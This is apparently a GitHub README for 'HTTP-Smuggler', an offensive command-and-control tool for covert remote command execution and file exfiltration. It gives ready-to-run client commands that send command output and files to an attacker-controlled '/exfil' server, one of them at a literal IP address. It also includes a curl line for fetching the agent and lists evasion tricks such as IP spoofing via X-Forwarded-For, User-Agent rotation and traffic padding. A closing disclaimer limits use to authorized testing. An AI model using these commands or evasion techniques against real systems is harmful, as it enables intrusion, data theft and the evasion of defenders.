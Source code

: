 # HTTP-Smuggler

![Python](https://img.shields.io/badge/python-3.6%2B-blue)
![License](https://img.shields.io/badge/license-MIT-green)
![Platform](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey)

Covert HTTP smuggling tool for stealthy data exfiltration and command execution, specifically optimized for reliable Remote Code Execution (RCE) operations. The agent evades detection through chunked encoding and traffic spoofing techniques while maintaining robust command-and-control connectivity. Designed for red team engagements, it supports both immediate task execution and persistent monitoring modes. The Flask server securely collects and isolates payloads with proper logging for operational security.

## Features

- **Stealthy Data Exfiltration**: Files are transferred using chunked encoding and base64 obfuscation
- **Command Execution**: Remote command execution with results exfiltrated to server
- **Monitor Mode**: Repeated command execution at specified intervals
- **Multiple Delivery Options**:
  - Python script (cross-platform)
  - Standalone Windows executable (client.exe)
- **Evasion Techniques**:
  - Random User-Agent rotation
  - IP spoofing via X-Forwarded-For
  - Request size variation with random padding
  - Randomized delay between requests
- **Server Component**: Flask-based receiver with proper data handling

## Components

### Client Options
1. **Python Script (`client.py`)**
   - Cross-platform (Windows/Linux/macOS)
   - Requires Python environment

2. **Standalone Executable (`client.exe`)**
   - Windows-only compiled version
   - Same command structure as Python script
   - No Python installation required

### Server (`server.py`)
- Flask-based receiver endpoint
- Handles both command output and file uploads
- Stores received data with timestamps
- Includes basic security measures
- The server can deliver the client agent for easy deployment. For example using `curl http://server-ip/client.py`

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Mattb709/HTTP-Smuggler.git
   cd HTTP-Smuggler
   ```

2. For Python version, install dependencies:
   ```bash
   pip install flask requests
   ```

## Usage

### Server Setup
```bash
python server.py
```

### Client Operations

**Using Python script:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
```
**Using Windows executable:**
```cmd
client.exe -f newtest.txt -s http://142.134.220.83:80/exfil
```
*Note:* The `/exfil` endpoint can be easily renamed for operational security

**Execute a single command:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
# OR
client.exe -c "whoami" -s http://your-server.com/exfil
```

**Exfiltrate a file:**
```bash
python client.py -f /path/to/file -s http://your-server.com/exfil
# OR
client.exe -f C:\path\to\file -s http://your-server.com/exfil
```

**Monitor mode (repeated execution):**
```bash
python client.py -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
# OR
client.exe -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
```
(Executes every 5 minutes)

## Options

| Flag | Description                                  | Required |
|------|----------------------------------------------|----------|
| -c   | Command to execute                           | Optional |
| -f   | File to exfiltrate                           | Optional |
| -s   | Server URL (default: http://mydomain.com/exfil) | No       |
| -m   | Enable monitor mode                          | No       |
| -t   | Time interval in minutes for monitor mode    | With -m  |

*Note: Options work identically in both Python script and compiled executable versions*

## Legal Disclaimer

This tool is provided for educational and authorized testing purposes only. The author is not responsible for any misuse or damage caused by this software. Always obtain proper authorization before testing any systems.

## License

MIT License - See [LICENSE](LICENSE) for details.

## Sample Images

**Server.py deployment and interaction from client:**
![img1](https://github.com/user-attachments/assets/235b8335-7e6c-42ed-9035-efa2a86baa37)
**Client.py operations:**
![img2](https://github.com/user-attachments/assets/a0a8b948-5d3a-4e88-a804-65a195620e1f)
